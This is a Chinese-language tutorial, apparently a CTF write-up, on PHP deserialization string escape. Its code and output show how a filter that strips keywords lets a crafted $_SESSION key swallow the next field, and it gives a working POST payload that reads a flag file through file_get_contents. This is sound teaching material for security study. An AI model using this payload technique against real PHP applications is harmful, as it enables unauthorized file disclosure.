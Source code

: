 ## **反序列化逃逸例子**
 PHP反序列化字符逃逸
```
<?php
$a = array('123', 'abc', 'defg');
var_dump(serialize($a));
?>
```

结果
```
string(49) "a:3:{i:0;s:3:"123";i:1;s:3:"abc";i:2;s:4:"defg";}" 
```

反序列化

```
<?php
//$a = array('123', 'abc', 'defg');
//var_dump(serialize($a));
//"a:3:{i:0;s:3:"123";i:1;s:3:"abc";i:2;s:4:"defg";}"
$b = 'a:3:{i:0;s:3:"123";i:1;s:3:"abc";i:2;s:4:"defg";}';
var_dump(unserialize($b));
?>
```

运行结果

```
array(3) { [0]=> string(3) "123" [1]=> string(3) "abc" [2]=> string(4) "defg" } 
```

  我们可以看到在后端中，反序列化是一";}结束的，如果我们把";}带入需要反序列化的字符串中（除了结尾处），是不是就能让反序列化提前结束后面的内容就丢弃了呢？\
  我们把第二个值abc换成abc";i:2;s:5:"qwert";}

```
<?php
//$a = array('123', 'abc', 'defg');
//var_dump(serialize($a));
//"a:3:{i:0;s:3:"123";i:1;s:3:"abc";i:2;s:4:"defg";}"
$b = 'a:3:{i:0;s:3:"123";i:1;s:3:"abc";i:2;s:5:"qwert";}";i:2;s:4:"defg";}';
var_dump(unserialize($b));
?>
```

运行结果

```
array(3) { [0]=> string(3) "123" [1]=> string(3) "abc" [2]=> string(5) "qwert" } 
```

成功的反序列化出我们自己定义的内容，丢弃了原先的内容（i:2;s:4:"defg"）




^
## **反序列化字符串逃逸。**
```
extract($_POST);
//接收POST参数值，覆盖变为变量和变量值。

//此时会默认$_SESSION数组中有个img的值为 base64_encode('guest_img.png')
//else中可以看出即使主动传参img_path也无法使用
if(!$_GET['img_path']){
    $_SESSION['img'] = base64_encode('guest_img.png');
}else{
    $_SESSION['img'] = sha1(base64_encode($_GET['img_path']));
}

//序列化$_SESSION数组
$serialize_info = filter(serialize($_SESSION));
function filter($img){
    $filter_arr = array('php','flag','php5','php4','fl1g');
    $filter = '/'.implode('|',$filter_arr).'/i';
    return preg_replace($filter,'',$img);//替换为空
}

//反序列化后提取数组中img的值 来获取文件内容。
$userinfo = unserialize($serialize_info);
echo file_get_contents(base64_decode($userinfo['img']));
//最终为了读d0g3_f1ag.php文件内容。
}
```
分析
```
通过extract($_POST);
接收POST参数值，变为$_SESSION中变量和值，
再利用序列化后会过滤字符为空格，构造字符串
实现将后面那个默认有个img的数组键值抛弃
只保留一个自己传的img键值，其中值为ZDBnM19mMWFnLnBocA==（d0g3_f1ag.php）
最后反序列化是实现文件读取。

```
测试
```
<?php
$_SESSION['phpflag']=';s:3:"img";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}';
$_SESSION['img'] = base64_encode('guest_img.png');


//序列化$_SESSION数组
echo $serialize_info = filter(serialize($_SESSION));
function filter($img){
    $filter_arr = array('php','flag','php5','php4','fl1g');
    $filter = '/'.implode('|',$filter_arr).'/i';
    return preg_replace($filter,'',$img);
}

//反序列化
echo '<br>';
print_r(unserialize($serialize_info));

Array
(
    [";s:50:] => img
    [img] => ZDBnM19mMWFnLnBocA==
)
```
所以POST传参
```
_SESSION[phpflag]=;s:3:"img";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}
```

列题：
<https://www.cnblogs.com/g0udan/p/12216207.html>